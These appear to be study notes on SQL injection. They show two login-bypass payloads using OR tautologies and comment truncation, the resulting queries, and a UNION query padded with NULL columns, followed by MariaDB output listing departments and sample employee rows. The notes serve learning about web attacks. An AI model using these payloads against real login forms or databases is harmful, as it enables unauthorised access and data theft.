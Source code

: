 ![image](https://hackmd.io/_uploads/BkVt0XDmC.png)

## <span style=color:black>Auth Bypass with OR operator</span>
```sql!
tom' OR '1' = '1
```
```sql!
SELECT * FROM logins WHERE username = 'tom' OR '1' = '1' AND password = 'ANYPASSWORD';
```
## <span style=color:black>Auth Bypass with comments</span>
```sql!
123' OR id=5)-- -
```
```sql!
SELECT * FROM logins WHERE (username = '123' OR id=5)-- -' AND id>1) AND password = '202cb962ac59075b964b07152d234b70';
```
# <span style=color:red>Union Un-even Columns</span>
```sql!
MariaDB [employees]> DESCRIBE departments;
+-----------+-------------+------+-----+---------+-------+
| Field     | Type        | Null | Key | Default | Extra |
+-----------+-------------+------+-----+---------+-------+
| dept_no   | char(4)     | NO   | PRI | NULL    |       |
| dept_name | varchar(40) | NO   | UNI | NULL    |       |
+-----------+-------------+------+-----+---------+-------+

MariaDB [employees]> DESCRIBE employees;
+------------+---------------+------+-----+---------+-------+
| Field      | Type          | Null | Key | Default | Extra |
+------------+---------------+------+-----+---------+-------+
| emp_no     | int(11)       | NO   | PRI | NULL    |       |
| birth_date | date          | NO   |     | NULL    |       |
| first_name | varchar(14)   | NO   |     | NULL    |       |
| last_name  | varchar(16)   | NO   |     | NULL    |       |
| gender     | enum('M','F') | NO   |     | NULL    |       |
| hire_date  | date          | NO   |     | NULL    |       |
+------------+---------------+------+-----+---------+-------+

MariaDB [employees]> SELECT dept_no, dept_name, NULL, NULL, NULL, NULL FROM departments UNION SELECT * FROM employees LIMIT 15;
+---------+--------------------+---------+-------------+------+------------+
| dept_no | dept_name          | NULL    | NULL        | NULL | NULL       |
+---------+--------------------+---------+-------------+------+------------+
| d009    | Customer Service   | NULL    | NULL        | NULL | NULL       |
| d005    | Development        | NULL    | NULL        | NULL | NULL       |
| d002    | Finance            | NULL    | NULL        | NULL | NULL       |
| d003    | Human Resources    | NULL    | NULL        | NULL | NULL       |
| d001    | Marketing          | NULL    | NULL        | NULL | NULL       |
| d004    | Production         | NULL    | NULL        | NULL | NULL       |
| d006    | Quality Management | NULL    | NULL        | NULL | NULL       |
| d008    | Research           | NULL    | NULL        | NULL | NULL       |
| d007    | Sales              | NULL    | NULL        | NULL | NULL       |
| 10001   | 1953-09-02         | Georgi  | Facello     | M    | 1986-06-26 |
| 10002   | 1952-12-03         | Vivian  | Billawala   | F    | 1986-12-11 |
| 10003   | 1959-06-16         | Temple  | Lukaszewicz | M    | 1992-07-04 |
| 10004   | 1956-11-06         | Masanao | Rahimi      | M    | 1986-12-16 |
| 10005   | 1962-12-11         | Sanjay  | Danlos      | M    | 1985-08-01 |
| 10006   | 1963-12-30         | Marie   | Stafford    | M    | 1988-10-10 |
+---------+--------------------+---------+-------------+------+------------+
```